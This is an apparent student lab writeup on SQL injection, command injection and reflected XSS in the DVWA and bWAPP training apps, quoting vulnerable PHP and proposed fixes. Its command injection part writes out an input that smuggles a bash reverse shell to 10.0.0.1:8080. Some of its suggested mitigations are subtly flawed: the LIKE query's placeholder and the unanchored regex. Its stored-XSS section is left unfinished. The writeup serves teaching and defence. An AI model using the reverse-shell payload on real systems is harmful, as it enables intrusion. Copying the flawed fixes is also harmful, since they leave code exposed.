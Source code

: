 # Web Application Security Lab 6 Writeup
Olson Section 1

Ryan Cheevers-Brown

## SQL Injection (DVWA), SQL Injection (GET/Search) (BWApp)

The root cause in the DVWA "low" script is the lack of sanitization - the `$id` variable is taken directly from the input form. I can put any code I want into the `$id` variable via the GET parameter and have the web server run it. The second line has been simplified for readibility, as it does a lot of error handling. 

```
$query = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysqli_query(..., $query);
```

This vulnerability is fixed in DVWA's Impossible difficulty using a prepared query and PHP's PDOs (prepared data objects). The SQL statement is created as a PDO with the `prepare` method as seen on the first line. This separates the SQL code from the user input and guarantees that the user can't easily escape the SQL query with `'` or `;` characters. The next line binds the `$id` variable to the `:id` parameter in the SQL query and ensures that it is treated as an integer. The query is then safely executed. 

```
$data = $db->prepare( 'SELECT first_name, last_name FROM users WHERE user_id = (:id) LIMIT 1;' );
$data->bindParam( ':id', $id, PDO::PARAM_INT );
$data->execute();
```

In BWApp, the vulnerability is very similar:

```
$title  = $_GET["title"];
$sql = "SELECT * FROM movies WHERE title LIKE '%" . sqli_($title) ."%'";
$recordset = mysql_query($sql, $link);
```

This code takes the `$title` value directly from the user's `GET` parameter and passes it into the SQL query without doing any parameterization or sanitization. 

DVWA's Impossible mitigation can be applied to this code as well. It would look something like this:

```
$title = $_GET["title"];
$data = $db->prepare( 'SELECT * FROM movies WHERE title LIKE %(:title)%;' );
$data->bindParam( ':title', $title, PDO::PARAM_STR );
$data->execute();
```
This code creates a prepared query structured the same as the original BWApp query. It then does the parameter binding, but using a PDO string instead of an integer. It then executes the query. This should be very difficult to SQL inject into. 

TODO: Additional mitigations?

## Command Injection (DVWA), OS Command Injection (BWApp)

The root cause in DVWA's "low" script is again, unsanitized input. This gives me (the attacker) the ability to execute any command they want by inserting a pipe `|` or semicolon `;` to break the command, followed by whatever secondary command they want. 

```
$target = $_REQUEST[ 'ip' ];
$cmd = shell_exec( 'ping -c 4 ' . $target );
```

DVWA's Impossible mode mitigates this by removing slashes, exploding the input into four octets, and then making sure each of the octets is numeric. This should cause errors if the input is not structured in the form of an IP address. However, this still leaves a vulnerability present: using a fifth octet to inject a command. 

```
$target = $_REQUEST[ 'ip' ];
$target = stripslashes( $target );
$octet = explode( ".", $target );
if( #each octet is numeric ){
    $target = octet[1] . "." ... "." octet[3] ;
    $cmd = shell_exec( 'ping -c 4 ' . $target );
}
```

The code does not check to see if more than four 'octets' are present after the `explode()` command. This leaves the door open for an input structured like this: 

```
1.1.1.1.;bash -i >& unbase64(base64-encoded("/dev/tcp/10.0.0.1/8080 0>&1"))
```

This would create a reverse shell listener that the attacker could then connect to. I would fix this problem (and simplify the code) by matching the user's input string to a very tightly written regular expression. This regex checks to make sure that the user's input is structured as four groups of 1 to 3 numbers separated by a single perio, and that there are no additional characters on the beginning or end. This would make command injection close to, if not entirely impossible. 

```
target = requests.get("ip")
check_regex = "/([0-9]{1,3}\.){3}[0-9]{1,3}/g"
regex_match = regex.match(input, check_regex)
```

The BWApp script doesn't do any input validation:

```
$target = $_POST['target'];
echo shell_exec("nslookup " . commandi($target));>
```

It takes the parameter from the POST request and passes it directly to NSLookup. This could be mitigated with the same regex checking as proposed for the DVWA Impossible mode improvement. I personally wouldn't bother implementing the current DVWA Impossible mitigation, as it's already vulnerable. 

## Reflected XSS (DVWA), XSS - Reflected (GET) (BWApp)

The DVWA `low` script is vulnerable: 

```
header ("X-XSS-Protection: 0");

if( array_key_exists( "name", $_GET ) && $_GET[ 'name' ] != NULL ) {
	$html .= '<pre>Hello ' . $_GET[ 'name' ] . '</pre>';
}
```

The `$name` GET parameter is passed directly into the HTML without any validation or sanitization, meaning that any code sent in the `name` GET parameter is directly output into the resulting web page. This means that an attacker can trick a user into clicking a link with a payload in the `$name` GET parameter included which will then execute said payload on the user's browser without the user's knowlege. 

Additionally, the code disables any browser built-in XSS protection by disabling XSS protection in the header. This is also NOT recommended for any production systems. 

DVWA's Impossible mode mitigates these vulnerabilities with several changes to the code. The first is simply leaving out the line that disables the browser's built-in XSS protection. The second is using PHP's `htmlspecialchars()` function to properly encode the entire input string, preventing any part of it from being interpreted as JS or HTML. 

```
$name = htmlspecialchars( $_GET[ 'name '] );
```

Finally, the Impossible mode also checks that the anti-CSRF token submitted as part of the `$_REQUEST` matches the one stored server-side in `'$_SESSION`. 

```
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
```

These mitigations would make an XSS attack much more difficult to pull off using this web page. 

The BWApp script has slightly different code, but effectively the same vulnerabilities as the DVWA Low mode. 

```
$first = $_GET["firstname"];
$last = $_GET["lastname"];
echo "Welcome " . $first . " " . $last;
```

There is no input validation or sanitization, so I can input absolutely any code I want in the last name parameter and have it execute on the target system (once they click my specially crafted link). 

The mitigation from DVWA's Impossible mode, as applied to DVWA,  would look something like this: 

```
checkToken( $_REQUEST[ 'user_token' ], $_SESSION[ 'session_token' ], 'index.php' );
$first = htmlspecialchars( $_GET[ 'firstname' ]);
$last = htmlspecialchars( $_GET[ 'lastname' ]);
echo "Welcome " . $first . " " . $last;
```

Both the first and last name parameters would be HTML-ified by the PHP function, and the page would be checked for the CSRF token. This would prevent any code inserted as a first or last name parameter from executing as HTML or JS. 

## XSS - Stored (DVWA), XSS - Stored (Blog) (DVWA)

The root cause in DVWA's `low` script:

```

```





## Questions

Root cause in DVWA "low"??

DVWA "impossible" mitigation?

root cause in BWAPP script?

Impossible mitigation -> bwapp?

additional mitigations for DVWA?

